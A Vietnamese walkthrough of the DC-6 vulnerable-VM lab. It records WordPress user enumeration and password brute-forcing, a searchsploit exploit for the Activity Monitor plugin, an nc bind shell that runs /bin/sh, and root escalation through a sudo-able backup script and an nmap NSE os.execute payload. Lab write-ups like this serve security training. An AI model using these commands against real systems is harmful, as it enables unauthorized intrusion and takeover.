# Extra Labs 6: DC-6 on vulhub

## Description

Thông tin chung: DC-6 được tác giả DCAU phát hành vào ngày 26/04/2019, chạy trên hệ điều hành Debian 64-bit và tối ưu cho VirtualBox. Mạng được cấu hình tự động cấp IP qua DHCP (mặc định là Bridged Networking).
## Mục tiêu & Độ khó: Giống với đa số các phần trước, mục tiêu tối thượng là lấy được quyền root và đọc một flag duy nhất. Bài này được đánh giá là không quá khó, rất phù hợp cho người mới bắt đầu (beginners).

Lưu ý bắt buộc (Cực kỳ quan trọng): Tương tự DC-2, bạn bắt buộc phải chỉnh sửa tệp /etc/hosts trên máy Kali Linux để trỏ IP của máy mục tiêu sang tên miền wordy (ví dụ: 192.168.0.142 wordy).

Gợi ý từ tác giả: Để tránh việc người chơi mất hàng năm trời cho việc dò quét mật khẩu, tác giả đã cung cấp sẵn một gợi ý tạo từ điển tùy chỉnh từ tệp rockyou.txt bằng lệnh: cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt.
## Các bước thực hiện

Sử dụng lệnh netdiscover để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 2 cổng: 80 (HTTP) và 22 (ssh)

```bash
nmap -sC -sV -p- 10.130.10.140
```



Từ thông tin trên biết rằng không khai thác được dịch vụ chạy trên máy

Em thêm luôn địa chỉ IP vào hosts như tác giả yêu cầu:

```bash
sudo nano /etc/hosts
```



Truy cập thử vào trang web của máy dc-6:



Tại trang About us có một hint mà tác giả đưa ra, đó là plugin. Và vì đây là trang web xây dựa trên WP, nên em sẽ sử dụng wps để quét username cũng như lỗ hổng plugin:

```bash
wpscan --url http://wordy -e u,vp --plugins-detection aggressive –api-token YOU_API_TOKEN
```

Em tìm thấy vài username:



Em tìm ra 2 lỗ hổng:





Cả 2 lỗ hổng này đều yêu cầu phải có quyền truy cập vào WP Admin để khai thác, vì thế em sẽ bruteforce với các username vừa tìm được.

```bash
echo admin > user.txt
```

```bash
echo graham >> user.txt
```

```bash
echo mark >> user.txt
```

```bash
echo sarah >> user.txt
```

```bash
echo jens >> user.txt
```



Từ mô tả của DC-6, tác giả có gợi ý rằng hãy sử dụng từ điển mà trong đó có chứa chuỗi “k01”

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```



Brute force bằng lệnh:

```bash
wpscan --url http://wordy -U user.txt -P passwords.txt
```



Kết quả chúng ta tìm thấy tài khoản và mật khẩu tương ứng

mark:helpdesk01

Em tìm đường link đăng nhập vào trang admin:

```bash
nikto -h http://wordy
```



Em thấy có /wp-login.php nhưng không truy cập được, chỉ có thể truy cập vào



Thử đăng nhập với tài khoản vừa tìm thấy:







Nhìn vào tab Activity monitor này em nhớ đến ngay plugin vừa tìm được ở trên liên quan đến Plainview Activity Monitor < 20180826. Em thử tìm kiếm chính xác bằng searchsploit luôn:

```bash
searchsploit Activity Monitor
```



Em chọn luôn cách khai thác cuối, sử dụng file python:

```bash
searchsploit -m php/webapps/50110.py
```





Nhập theo những gì họ yêu cầu, và em dễ dàng vào được shell của máy nạn nhân.

Tuy nhiên chạy trên reverse hiện tại bị hạn chế output nên khó khăn trong quá trình leo thang, em tạo một nc bind để kết nối:

```bash
nc -l -p 12345 -e /bin/sh (Máy nạn nhân)
```

```bash
nc 10.130.10.140 4444 (Máy tấn công)
```





Em thử tìm kiếm xem có manh mối nào không, thì phát hiện một file to-do của mark:



Ở đây có sẵn tài khoản và mật khẩu của graham:GSo7isUM1D4, em thử đăng nhập bằng ssh xem sao:



May mắn khi user này có quyền sudo với file /home/jens/backup.sh





Vì có quyền sudo với file backups.sh nên em chèn thêm lệnh: /bin/bash





Với user jens có quyền sudo với /usr/bin/nmap

Ta không thể tạo file mới với payload, nhưng có thể viết một NSE-script và chạy với nmap

```bash
TF=$(mktemp)
```

```bash
echo 'os.execute("/bin/bash")' > $TF
```

```bash
sudo nmap --script=$TF
```



Dễ dàng chiếm được quyền root và đọc flag